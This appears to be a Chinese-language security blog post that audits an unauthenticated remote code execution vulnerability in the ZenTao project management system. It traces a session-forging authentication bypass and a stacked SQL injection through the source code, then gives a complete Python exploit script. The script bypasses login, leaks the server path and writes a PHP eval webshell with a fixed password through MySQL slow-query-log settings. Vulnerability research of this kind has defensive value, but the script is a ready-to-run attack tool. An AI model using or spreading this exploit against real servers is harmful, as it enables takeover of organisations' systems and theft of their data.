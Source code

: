```yaml
---
title: "禅道研发项⽬管理系统未授权漏洞"
published: 2023-01-13
description: ""
category: 胡乱折腾
tags: 
  - "sql"
  - "命令执行"
  - "未授权"
  - "漏洞"
  - "禅道"
---
```


昨天微步上发布了关于禅道研发项⽬管理系统未授权RCE漏洞的信息

![青岛禅道软件旗下 杭州易软共创网络科技有限公司](assets/f_0db46b57817d41f80d023e869b9ee5a2.png)

影响范围：

- v17.4<= 禅道 <= v18.0.beta1（开源版）
- v3.4<= 禅道 <= v4.0.beta1（旗舰版）
- v7.4<= 禅道 <= v8.0.beta1（企业版）

 

我于是选择了开源吧18.0bata1的程序下载下来审计

其中关键部分在于权限绕过

framework\\base\\control.class.php

```
if($this->config->installed && !in_array($this->moduleName, $this->config->openModules) && empty($this->app->user) && !$this->loadModel('common')->isOpenMethod($this->moduleName, $this->methodName))
{
    $uri = $this->app->getURI(true);
    if($this->moduleName == 'message' and $this->methodName == 'ajaxgetmessage')
    {
        $uri = helper::createLink('my');
    }
    elseif(helper::isAjaxRequest())
    {
        die(json_encode(array('result' => false, 'message' => $this->lang->error->loginTimeout)));
    }

    $referer = helper::safe64Encode($uri);
    die(js::locate(helper::createLink('user', 'login', "referer=$referer")));
}
```

可以发现这一部分的代码在开头进行权限判断时候

empty($this->app->user)

只判断了user不为空即可

其中user的信息主要存在session中，所以只要能构造一个user的键即可

然后对允许访问的模块和方法进行审计发现了在misc模块的captcha方法中可以伪造session只能控制键不能控制值，正好可以用来绕过权限认证

\\module\\misc\\control.php

```
public function captcha($sessionVar = 'captcha', $uuid = '')
{
    $obLevel = ob_get_level();
    for($i = 0; $i < $obLevel; $i++) ob_end_clean();

    header('Content-Type: image/jpeg');
    $captcha = $this->app->loadClass('captcha');
    $this->session->set($sessionVar, $captcha->getPhrase());
    $captcha->build()->output();
}
```

之后又到了权限验证部分

判断完成之后用die进行处理来到了这一部分

\\module\\convert\\model.php

 

public function checkPriv()

 

```
catch(EndResponseException $endResponseException)
{
    echo $endResponseException->getContent();
}
```

其中这个就是权限不满足时候执行的，原本这时候应该就要结束了，但是这里采用的是echo 所以导致了可以继续执行代码，所以只要上面的验证绕过，这里就可以继续执行。

在官方发布的新版中这里修改为了die

die($endResponseException->getContent());

代码不能继续执行了

 

权限认证绕过之后，发现可以访问一部分代码，在对后台的功能审计时候发现，在导入数据时候的数据库判断存在sql注入

\\module\\convert\\model.php

```
public function dbExists($dbName = '')
{
    $sql = "SHOW DATABASES like '{$dbName}'";
    return $this->dbh->query($sql)->fetch();
}
```

 

```
public function connectDB($dbName = '')
{
    $dsn = "mysql:host={$this->config->db->host}; port={$this->config->db->port};dbname={$dbName}";
    try
    {
        $dbh = new PDO($dsn, $this->config->db->user, $this->config->db->password);
        $dbh->setAttribute(PDO::ATTR_DEFAULT_FETCH_MODE, PDO::FETCH_OBJ);
        $dbh->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
        $dbh->exec("SET NAMES {$this->config->db->encoding}");
        $this->sourceDBH = $dbh;
        return $dbh;
    }
    catch (PDOException $exception)
    {
        return $exception->getMessage();
    }
}
```

 

发现show语句中存在sql注入，然后根据连接方法connectDB判断可以在sql中构造堆叠注入。

然后就可以直接在数据库中添加管理员账号，进一步操作。

拿到禅道的管理员权限后就简单多了，后台可利用方法有兴趣自己研究下。

 

（rce的脚本github已经公布我补充下我当时sql的后续方法吧QAQ我是小菜鸡）

 

如果在sql的基础上继续利用可以直接尝试写shell

在官方一键安装中使用的默认数据库是root

但是secure\_file\_priv的值为空所以这个行不通了

但是既然是root用户可以利用慢查询写shell

只要知道物理路径就可以了

正好在前一步的sql中构造错误的sql可以暴漏物理路径

直接写shell

exp：

```
import re

import requests


class exp(object):

    def __init__(self, url):
        self.url = url
        self.headers = {"Referer": self.url}
        self.type = 1
        self.routes = {
            "a": ['/index.php?m=misc&f=captcha&sessionVar=user&uuid=1', '/index.php?m=convert&f=importNotice'],
            "b": ['/misc-captcha-user-1.html', '/convert-importNotice.html']
        }
        self.route()
        self.init()
        self.path = self.getPath()


    def route(self):
        res = requests.get(self.url)
        if "user-login" in res.text:
            self.type = "b"
        else:
            self.type = "a"

    def init(self):
        res = requests.get(self.url + self.routes[self.type][0])
        self.headers['cookie'] = res.headers.get("Set-cookie") + ";XDEBUG_SESSION=PHPSTORM"

    def sql(self, data):
        data = {
            "dbName": f"';{data}#"
        }
        res = requests.post(self.url + self.routes[self.type][1], headers=self.headers,
                            data=data)
        return res.text

    def getPath(self):
        res = self.sql("'xx")
        data = re.findall('#0 (.+?)module',res)
        return data[0] + "www/"

    def shell(self):
        # 0x3c3f706870206576616c28245f504f53545b277861697478275d293b  <?php eval($_POST['xaitx']);
        data = f"set global slow_query_log=1;set global slow_query_log_file='{self.path}www/shell.php'; select '<?php eval($_POST[\"xaitx\"]);' or sleep(11);#"
        res = self.sql(data)


if __name__ == '__main__':
    print("--------------------------------------------\n"
             "v17.4<= 禅道 <= v18.0.beta1（开源版）\n"
             "v3.4 <= 禅道 <= v4.0.beta1（旗舰版）\n"
             "v7.4 <= 禅道 <= v8.0.beta1（企业版）\n"
          "--------------------------------------------")
    url = input("url:")
    a = exp(url)
    a.shell()
    print("写入成功\n"
          f"url:{a.path}/shell.php\n"
          "密码：xaitx")
```
